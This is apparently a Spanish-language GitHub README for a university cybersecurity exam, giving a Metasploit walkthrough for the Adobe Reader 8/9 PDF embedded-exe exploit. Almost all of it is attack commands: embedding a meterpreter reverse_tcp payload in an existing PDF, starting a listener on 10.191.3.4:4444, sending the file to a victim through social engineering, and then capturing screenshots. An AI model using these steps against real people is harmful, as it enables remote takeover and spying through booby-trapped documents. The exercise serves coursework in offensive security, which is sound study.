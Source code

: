 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x

use exploit/windows/fileformat/adobe_pdf_embedded_exe
set payload windows/meterpreter/reverse_tcp
ifconfig
set lhost 10.191.3.4
set lport 4444
set infilename /root/parcial/el_gigante_egoista.pdf
exploit

back
use exploit/multi/handler
set lhost 10.191.3.4
set lport 4444
exploit

Enviar archivo a la máquina que se desea atacar
Cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter

load espia
screengrab
